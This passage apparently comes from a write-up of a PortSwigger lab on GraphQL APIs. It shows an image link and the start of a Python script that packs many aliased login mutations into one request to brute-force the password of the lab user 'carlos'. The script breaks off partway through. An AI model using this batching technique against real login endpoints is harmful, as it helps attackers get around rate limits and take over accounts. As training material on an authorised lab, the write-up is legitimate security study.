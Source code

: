 
![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Testing-GraphQL-APIs/GraphQL-4/images/Pasted%20image%2020230707152542.png)

**To automate the process, I'll write a Python script:** (Probably overkilled lol)
```python
#!/usr/bin/env python3
import requests
import json
from time import sleep

class Bruteforcer:
    def __init__(self, url, passwordWordlist):
        self.url = url
        self.passwordWordlist = passwordWordlist
        self.session = requests.Session()

    def prepareLoginMutationQuery(self):
        query = '{"query": "'
        counter = 0
        for password in self.passwordWordlist:
            if counter != 0:
                mutationLoginQuery = 'login'
                mutationLoginQuery += str(counter)
                mutationLoginQuery += ':login(input:{username:\\"carlos\\",password:\\"'
                mutationLoginQuery += password
                mutationLoginQuery += '\\"}){token,success}'
                query += mutationLoginQuery
                counter += 1
            else:
```
